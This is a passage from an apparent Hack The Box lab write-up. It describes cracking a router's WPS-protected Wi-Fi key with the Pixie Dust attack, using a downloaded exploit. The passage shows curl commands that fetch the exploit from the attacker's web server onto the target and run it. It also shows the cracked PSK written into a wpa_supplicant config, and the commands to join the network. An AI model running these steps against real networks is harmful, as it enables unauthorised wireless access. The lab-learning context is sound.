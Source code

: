 After searching on the internet about bruteforcing PSK, we find many mentions to the **Pixie Dust attack**.\\
More information about the attack can be found on <a href="https://security.stackexchange.com/questions/149178/what-is-pixie-dust-attack-on-router" target="_blank">Stack Overflow</a>.\\
For this attack to work, WPS must be enabled, and we saw it is the case in the image above.\\
There is an available python exploit which performs this Pixie Dust attack that can be found on <a href="https://github.com/kimocoder/OneShot" target="_blank">Github</a>.

We can copy the code into a file (*wifinetic_oneshot.py*) on Kali, start a web server, and download it on the target. Then, we use it:

```
curl -O http://10.10.14.4:8001/wifinetic_oneshot.py
chmod +x wifinetic_oneshot.py
sudo python3 wifinetic_oneshot.py -i wlan0 -K
```
Here's the result:

<div class="img_container">
![psk]({{https://jsom1.github.io/}}/_images/htb_wifi_psk.png)
</div>

The script successfuly retrieved the PSK key, so we should be able to connect to the network. I'll follow the steps given by ChatGPT.\\
First, we must create a configuration file for *wpa_supplicant*. Since nano isn't installed on the machine and I'm not comfortable with vim, I just created the file on Kali and transferred it afterwards.

```
sudo nano wpa_supplicant.conf
```

Inside this file, we specify the following:

```
network={
    ssid="plcrouter"
    psk="NoWWEDoKnowWhaTisReal123!"
}
```

And we transfer it on the machine in */etc/wpa_supplicant* (**apparently, it is possible to use a command-line utility called *wpa_passphrase* to generate the WPA PSK configuration file --> this is what I had to do in the end, because the file above didn't work**).

```
curl -O http://10.10.14.4:8001/wpa_supplicant.conf
```

Next, we can connect to the network using this configuration file:

```
sudo wpa_supplicant -B -i wlan0 -c /etc/wpa_supplicant/wpa_supplicant.conf
```
The *-B* in the command specifies to runs *wpa_supplicant* in the background.
Then, we must get an IP address. I first tried to use *dhclient* to get an address generated by DHCP, but that froze my terminal. ChatGPT suggests we can generate a static one:
